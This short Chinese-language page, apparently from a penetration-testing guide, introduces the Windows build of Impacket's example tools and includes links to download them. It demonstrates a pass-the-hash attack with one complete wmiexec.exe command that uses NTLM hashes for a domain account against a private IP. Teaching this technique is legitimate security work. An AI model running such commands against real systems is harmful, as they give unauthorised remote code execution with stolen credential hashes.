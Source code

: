 ```yaml
---
title: 4.2.4.2 impacket-examples-windows
id: zhfly3430
---
```


#### 4.2.4.2 impacket-examples-windows

impacket-examples-windows 是 impacket(网络协议工具包)的 windows 版本，包含 了几十款工具，这里使用 wmiexec.exe 来演示 pth 攻击。

```
wmiexec.exe -hashes b084e803561e306bff17365faf1ffe89:db23832fd3822fcaea5c019f090fe752 ADTEST/jeff1@192.168.19.14 "whoami" 
```

![image](../img/d8a9c0c484497a3903a6056c673fc296.png)

![image](../img/33b64b4643887b91c860ca00bbee6f86.png)

下载地址:

> impacket-examples-windows:

https://github.com/maaaaz/impacket-examples-windows/releases

> impacket:

https://github.com/SecureAuthCorp/impacket